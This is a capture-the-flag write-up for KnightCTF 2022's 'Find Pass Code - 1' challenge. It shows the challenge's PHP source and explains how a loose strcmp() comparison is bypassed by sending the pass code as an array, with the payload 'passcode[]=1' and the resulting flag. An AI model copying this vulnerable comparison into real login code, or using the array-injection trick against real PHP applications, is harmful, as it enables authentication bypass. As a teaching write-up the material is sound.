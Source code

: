 # Kinght CTF - Find Pass Code - 1

Inspect html code, we can see a comment:
<!-- Hi Serafin, I learned something new today. 
I build this website for you to verify our KnightCTF 2022 pass code. You can view the source code by sending the source param
-->
Ok, let's try that:
path: http://159.223.166.39:9000/?source=
```php
<?php
require "flag.php";
if (isset($_POST["pass_code"])) {
    if (strcmp($_POST["pass_code"], $flag) == 0) {
        echo "KCTF Flag : {$flag}";
    } else {
        echo "Oh....My....God. You entered the wrong pass code.<br>";
    }
}
if (isset($_GET["source"])) {
    print show_source(__FILE__);
}

?>
```
Php strcmp() function, typical huh!
This function return 0 when 2 string compare equal(case-sensitive) but this it really easy to bypass, if arg is an array instead of string --> strcmp return false which equal to 0.
**payload**: passcode[]=1

*Warning*: strcmp() expects parameter 1 to be string, array given in /var/www/html/index.php on line 4

**KCTF Flag** : KCTF{ShOuLd_We_UsE_sTrCmP_lIkE_tHaT}